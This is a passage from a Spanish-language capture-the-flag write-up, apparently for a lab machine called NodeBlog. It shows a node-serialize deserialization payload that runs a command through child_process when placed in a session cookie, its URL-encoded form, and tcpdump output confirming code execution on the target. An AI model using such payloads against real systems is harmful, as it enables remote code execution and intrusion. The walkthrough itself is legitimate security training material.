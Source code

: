 Vemos que se está empleando `node-serealize`, a la hora de `procesar` la `cookie` [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Node.md), debemos `añadir ()` para que se acontezca un `JavaScript immediately invoked function expressions (IIFEs)`. Este es el `payload` que usaremos para `validar` el `Deserialization Attack`

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.16.23', function(error,stdout, stderr) { console.log(stdout) });}()"}
```

Lo siguiente que debemos hacer es `urlencodear` este `payload`, en mi caso voy a usar el `decoder` de `Burpsuite`

```
%7b%22%72%63%65%22%3a%22%5f%24%24%4e%44%5f%46%55%4e%43%24%24%5f%66%75%6e%63%74%69%6f%6e%28%29%7b%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%70%69%6e%67%20%2d%63%20%31%20%31%30%2e%31%30%2e%31%36%2e%32%33%27%2c%20%66%75%6e%63%74%69%6f%6e%28%65%72%72%6f%72%2c%73%74%64%6f%75%74%2c%20%73%74%64%65%72%72%29%20%7b%20%63%6f%6e%73%6f%6c%65%2e%6c%6f%67%28%73%74%64%6f%75%74%29%20%7d%29%3b%7d%28%29%22%7d
```

![](/assets/img/NodeBlog/image_9.png)

Nos ponemos en `escucha` de `trazas icmp`

```
# sudo tcpdump -i tun0 icmp
```

`Reemplazamos` la `cookie` de `sesión` por la nuestro `payload` y `recargamos` la `página`

![](/assets/img/NodeBlog/image_10.png)

`Recibimos` las `trazas icmp`

```
# sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:46:06.432195 IP 10.129.178.26 > 10.10.16.23: ICMP echo request, id 1, seq 1, length 64
00:46:06.432236 IP 10.10.16.23 > 10.129.178.26: ICMP echo reply, id 1, seq 1, length 64
```
## Intrusión
